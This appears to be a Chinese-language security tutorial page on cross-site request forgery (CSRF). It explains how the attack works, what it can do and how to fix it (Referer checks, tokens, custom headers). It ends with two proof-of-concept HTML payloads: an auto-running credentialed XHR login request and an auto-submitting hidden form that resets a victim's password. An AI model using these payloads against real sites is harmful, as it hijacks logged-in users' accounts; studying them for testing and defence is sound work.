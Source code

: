 ```yaml
---
author: YOUZAI
title: 跨站请求伪造
date: 2023/04/24
categories:
 - 常见漏洞
tags:
 - WEB安全
---
```


## 漏洞原理

跨站请求伪造，是一种挟制用户在当前已登录的 web 应用程序上执行非本意操作的攻击方法。黑客利用已经登陆的用户,诱使其访问或者登陆某个早已构造好的恶意连接或者页面，然后再用户毫不知情的情况下，以用户的名义完成了非用户本意的非法操作。与 XSS 攻击相比，XSS 利用的是用户对指定网站的信任，CSRF 利用的是网站对客户网页浏览器的信任。

## 漏洞危害

* 修改用户的个人信息。
* 执行恶意操作。
* 使用户在不知情的情况下执行了某些非用户本意的操作。

## 修复建议

* 验证 HTTP **Referer** 字段。
* 在请求地址中添加 **token** 并验证。
* **HTTP** 头中自定义属性并验证。

## 测试方法

让目标网站访问搭建好的 *VPS* 网站，在 *VPS* 上创建一个 **hack.html** 文件。

POC：

* 对于`json`数据包

```html
<!DOCTYPE html>
<html>
<body>
<script>
window.onload=function() {
  var xhr = new XMLHttpRequest();
  xhr.open('POST', 'http://target/login');
  xhr.withCredentials = true;
  xhr.setRequestHeader('Content-Type', 'application/json;charset=UTF-8');
  xhr.send({"user":"Admin","email":"","password":"123456"});
}
</script>
</body>
</html>
```

* 对于普通数据包

```html
<!DOCTYPE html>
<html>
  <body>
    <form action="http://localhost:80/reset.php" method="post">
      <input type="hidden" name="newpassword" value="123456" />
      <input type="hidden" name="repeatpassword" value="123456" />
      <input type="hidden" name="Submit" value="Login" />
    </form>
    <script>
    document.forms[0].submit();
  </script>
  </body>
</html>
```